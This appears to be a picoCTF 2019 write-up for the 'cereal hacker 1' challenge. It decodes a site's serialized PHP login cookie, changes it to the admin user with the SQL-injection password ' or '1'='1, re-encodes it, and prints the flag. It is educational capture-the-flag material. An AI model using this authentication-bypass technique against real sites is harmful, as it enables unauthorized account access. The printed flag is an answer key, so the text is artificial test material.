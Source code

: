 # cereal hacker 1

## Problem

> Login as admin. <https://2019shell1.picoctf.com/problem/49879/> or <http://2019shell1.picoctf.com:49879>

* [Website](https://2019shell1.picoctf.com/problem/49879/)

## Solution

1. Login as `guest:guest`
2. Get cookie
3. Use [URLdecoder](https://www.urldecoder.org/) to decode the cookie twice
4. Use [base64decoder](https://www.base64decode.org/) to decode what you get from [URLdecoder](https://www.urldecoder.org/) to get: `O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}`
5. Change that result to `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";}` (`s:11` and not `s:5` because the number corresponds to the length of the string which is PHP standard)
6. Encode using [base64encode](https://www.base64encode.org/) to get `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJzEnPScxIjt9`
7. If there are equal signs after the cookie is base64 encoded then run the base64 encoded string through [URLencoder](https://www.urlencoder.org/) twice
8. Set cookie to new cookie
9. Change URL to `file=admin`
10. You got the flag

### Flag

`picoCTF{0d040919669d2bc1501212f90450eb4c}`